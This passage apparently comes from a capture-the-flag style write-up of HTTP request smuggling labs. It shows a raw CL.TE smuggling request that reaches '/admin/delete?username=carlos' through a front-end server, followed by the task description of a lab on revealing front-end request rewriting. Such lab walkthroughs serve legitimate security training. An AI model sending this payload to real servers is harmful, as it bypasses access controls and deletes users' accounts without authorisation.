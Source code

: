 And finally delete the user “carlos”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

51
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/408950cd289348fe8a08d2c9d4ea0408.png)

08 Exploiting HTTP request smuggling to reveal front-end request rewriting
==========================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP
address 127.0.0.1. The front-end server adds an HTTP header to incoming requests
containing their IP address. It's similar to the X-Forwarded-For header but has
a different name.

To solve the lab, smuggle a request to the back-end server that reveals the
header that is added by the front-end server. Then smuggle a request to the
back-end server that includes the added header, accesses the admin panel, and
deletes the user carlos.
